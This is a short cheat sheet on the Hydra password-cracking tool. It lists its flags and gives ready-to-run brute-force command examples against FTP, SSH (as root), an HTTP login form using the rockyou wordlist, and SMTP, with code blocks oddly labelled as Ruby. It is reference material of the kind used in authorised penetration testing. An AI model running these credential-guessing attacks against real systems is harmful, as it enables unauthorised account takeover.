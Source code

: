 # Hydra

Hydra is a powerful tool for password cracking. Here's a comprehensive guide on its usage:

## Basic Syntax

```ruby
hydra -l/-L <user/list> -p/-P <password/dictionary> <IP address> <protocol>
```

## Key Parameters

- `-l`: Specify a single username
- `-L`: Use a list of usernames
- `-p`: Specify a single password
- `-P`: Use a password dictionary
- `-s`: Specify a port number
- `-o`: Save attack results to a file


## Advanced Options

- `-t`: Set number of parallel connections per target
- `-w`: Wait time between connections
- `-f`: Stop attack after first found login/password pair
- `-v`: Verbose mode, show login+pass for each attempt


## Examples

### FTP brute Force

```ruby
hydra -L users.txt -P passwords.txt 192.168.1.100 ftp
```

### SSH with Specific Port

```ruby
hydra -l root -P common_passwords.txt 10.0.0.1 ssh -s 2222
```

### HTTP PostForm

```ruby
hydra -l admin -P rockyou.txt 192.168.1.10 http-post-form "/login.php:username=^USER^&password=^PASS^:Login failed"
```
### SMTP with Result Output

```ruby
hydra -L users.txt -P passwords.txt smtp://10.0.0.1 -o smtp_results.txt
```
